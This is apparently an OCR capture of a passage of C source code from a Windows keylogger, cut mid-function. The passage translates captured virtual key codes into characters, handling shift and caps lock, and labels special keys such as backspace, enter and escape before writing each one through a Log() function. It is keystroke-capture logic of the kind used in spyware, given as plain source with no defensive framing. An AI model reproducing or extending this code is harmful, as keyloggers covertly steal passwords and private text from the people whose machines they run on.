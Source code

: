 ```c
                            Log("^");
                            break;
                        case 0x37:
                            Log("&");
                            break;
                        case 0x38:
                            Log("*");
                            break;
                        case 0x39:
                            Log("(");
                            break;
                    }
                    // no shift key
                } else {
                    sprintf(key, "%c", vkCode);
                    Log(key);
                }
                // key is a - z
            } else if (vkCode >= 0x41 && vkCode <= 0x5A) {
                // if lowercase
                if (GetAsyncKeyState(VK_SHIFT) ^ ((GetKeyState(VK_CAPITAL) & 0x0001)) == FALSE)
                    vkCode += 32;
                sprintf(key, "%c", vkCode);
                Log(key);
            // all other keys
            } else {
                switch (vkCode) {
                    case VK_CANCEL:
                        Log("[CANCEL]");
                        break;
                    case VK_BACK:
                        Log("[BACKSPACE]");
                        break;
                    case VK_TAB:
                        Log("[TAB]");
                        break;
                    case VK_CLEAR:
                        Log("[CLEAR]");
                        break;
                    case VK_RETURN:
                        Log("[ENTER]");
                        break;
                    case VK_CONTROL:
                        Log("[CTRL]");
                        break;
                    case VK_MENU:
                        Log("[ALT]");
                        break;
                    case VK_PAUSE:
                        Log("[PAUSE]");
                        break;
                    case VK_CAPITAL:
                        Log("[CAPS LOCK]");
                        break;
                    case VK_ESCAPE:
                        Log("[ESC]");
                        break;
                    case VK_SPACE:
                        Log("[SPACE]");
                        break;
                    case VK_PRIOR:
                        Log("[PAGE UP]");
                        break;
```